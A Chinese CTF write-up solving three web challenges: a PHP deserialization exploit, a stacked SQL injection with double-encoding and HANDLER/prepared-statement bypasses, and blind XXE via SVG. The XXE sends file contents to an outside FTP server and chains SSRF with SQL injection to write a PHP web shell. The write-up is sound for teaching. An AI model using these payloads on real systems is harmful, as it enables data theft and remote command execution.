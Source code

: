 ## 白给的反序列化

### 题目描述

不能再简单了，再简单自杀，flag在flag.php里面

### 出题思路

最简单的反序列化，你会发现几乎所有的限制其实都不生效，只是为了增加一点阅读代码的乐趣

### 解题思路

根据提示只需要执行`cat flag.php`就行了

读完代码，你会发现，其实真正的限制只有这个

```php
if (in_array($this->method, array("mysys"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
```

method变量为`mysys`就行

args变量的限制其实不生效，因为`__destruct()`，所以无论前面有没有`die()`最终`__destruct()`都会被调用，只要注意下`call_user_func_array`传入的第二个参数`$this->args`要是数组就行，可以任意命令执行。

exp：

```php
<?php
class home
{
    private $method;
    private $args;
    function __construct($method, $args)
    {
        $this->method = $method;
        $this->args = $args;
    }
    function __destruct()
    {
        if (in_array($this->method, array("mysys"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    }
}
$a = new home('mysys',array('flag.php'));
echo urlencode(serialize($a));
?>
```

生成如下payload

```
O%3A4%3A"home"%3A2%3A%7Bs%3A12%3A"%00home%00method"%3Bs%3A5%3A"mysys"%3Bs%3A10%3A"%00home%00args"%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A"flag.php"%3B%7D%7D
```

## sqli-labs 0

### 题目描述

不会吧，不会真有人不会注入吧

### 出题思路

网鼎杯“随便注”基础上加了转义，所以需要二次编码绕过，加入了过滤`rename、alter、union'`

### 解题思路

通过传入参数添加二次编码的单引号`%2527`,发现报错，但是因为过滤union用不了，所以想到堆叠注入。

```sql
1%2527;show databases;%2523  查库名
1%2527;use security;show tables;%2523 查表名
1%2527;use security;show columns from uziuzi;%2523 查列名
```

最后查看flag，`select`被过滤了，可以预处理语句或者handler查询

handler查询

```sql
1%2527;handler uziuzi open as hhh;handler hhh read first;%2523
```

预处理

```sql
id=1%2527;sEt%2520@sql=concat(%2522sel%2522,%2522ect%2520flag%2520from%2520%2560 uziuzi%2560%2522);prepare%2520mysql%2520from%2520@sql;execute%2520mysql;
```

## svgggggg！

### 题目描述

只求大佬门不要搅屎,求放过...

### 出题思路

解析svg未严格限制格式，造成blind xxe，ssrf打内网服务

### 解题方法

首先需要一台公网服务器，或者将本地服务转发到公网ip才能解题

先构造xxe.svg和xxe.xml

xxe.svg如下，重点在构造上半段，网上找blind xxe的payload也是可以的

```dtd
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://218.78.20.XXX:2122/xxe.xml">
%sp;
%param1;
]>

<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

xxe.xml如下

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://218.78.20.xxx:2121/%data;'>">
```

我是用了github上的开源项目[xxeser](https://github.com/staaldraad/xxeserv)搭建在服务器上来比较便利的获取到Blind XXE返回的内容。接下来以xxeser为例，当然你也可以用自己的方法

将xxe.svg和xxe.xml移动到xxeser文件下自己创建的xxe-svg-xml文件夹下，并在我的服务器上开启了该服务

```
./xxeserv -w -wd ./xxe-svg-xml
```

只需要通过修改xxe.xml，再访问http://118.31.11.216:30500/view.php?svg=http://218.78.20.xxx:2122/xxe.svg，就可以获取到想要的内容，然后就可以开始Blind XXE之旅了

index.php和view.php都有`made with by r1ck`

读取r1ck的.bash_history

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/home/r1ck/.bash_history">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://218.78.20.xxx:2121/%data;'>">
```

发现/app目录下起了php服务在0.0.0.0:8080

首先读取/app/index.php的源码，发现存在sql注入

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/app/index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://218.78.20.xxx:2121/%data;'>">
```

利用sql注入通过如下语句在/app目录下写入命令执行语句，这边写入shell语句注意编码url编码，hex编码都可以

url编码：

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1:8080/index.php?id=-1%27%20union%20select%201,%27%3c?php%20system($%5fGET%5bcmd%5d)%3b?%3e%27%20into%20outfile%27/app/shell.php%27%23">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://218.78.20.xxx:2121/%data;'>">
```

hex编码：

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1:8080/index.php?id=-1%27%20union%20select%201,0x3c3f7068702073797374656d28245f4745545b636d645d293b3f3e%20into%20outfile%27/app/shell.php%27%23">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://218.78.20.xxx:2121/%data;'>">
```

通过刚刚写入的文件命令执行，`ls`查看当前目录下文件，可以看到flag文件，再用相同的方法`cat`查看flag文件就行

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1:8080/shell.php?cmd=ls">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://218.78.20.xxx:2121/%data;'>">
```

